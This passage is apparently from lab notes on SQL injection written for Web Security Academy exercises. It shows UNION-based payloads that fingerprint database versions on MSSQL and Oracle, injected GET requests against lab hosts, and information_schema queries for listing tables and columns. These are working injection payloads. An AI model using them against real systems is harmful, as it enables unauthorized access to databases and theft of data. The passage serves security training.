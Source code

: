 ```sql
' UNION SELECT @@version--
```

This might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

###### Lab: SQL injection attack, querying the database type and version on Oracle

- This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

- Intercept the filter category request and inject the following code:

```http
GET https://0ab4006103e45fac852c30dc003e00ee.web-security-academy.net/filter?category=Pets' union select null from dual -- HTTP/1.1
```

- Fuzz on the number of nulls in the union select to know how many columns the original query accepts.
- Then inject this code:

```http
GET https://0ab4006103e45fac852c30dc003e00ee.web-security-academy.net/filter?category=Pets' union select banner, null from v$version -- HTTP/1.1
```

- Fuzz the banner field on the null values until the request gets a 200 response and the banner (with all the DBMS infos) is displayed.

###### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

- Very similar to the previous lab, except for the syntax to be used.

#### Listing the contents of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```

You can then query `information_schema.columns` to list the columns in individual tables:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

###### Lab: SQL injection attack, listing the database contents on non-Oracle databases
